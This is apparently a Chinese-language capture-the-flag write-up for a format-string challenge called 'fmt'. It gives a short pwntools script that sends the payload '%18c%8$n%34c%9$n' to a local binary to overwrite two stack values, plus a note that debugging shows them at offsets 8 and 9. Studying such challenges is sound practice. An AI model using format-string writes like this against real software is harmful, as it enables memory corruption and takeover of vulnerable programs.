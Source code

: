 ## fmt


***

出题人：xsh

![image-20240413224501590](C:\Users\26272\AppData\Roaming\Typora\typora-user-images\image-20240413224501590.png)

```python
from pwn import *

context(os='linux', arch='amd64', log_level='debug')
p = process('./fmt')
elf = ELF('./fmt')

#gdb.attach(p, 'b printf')

p.sendafter(b'> ', b'%18c%8$n%34c%9$n')

#pause()

p.interactive()


```

通过调试可以发现 a 和 b 的栈地址在偏移 8 和 9 的位置
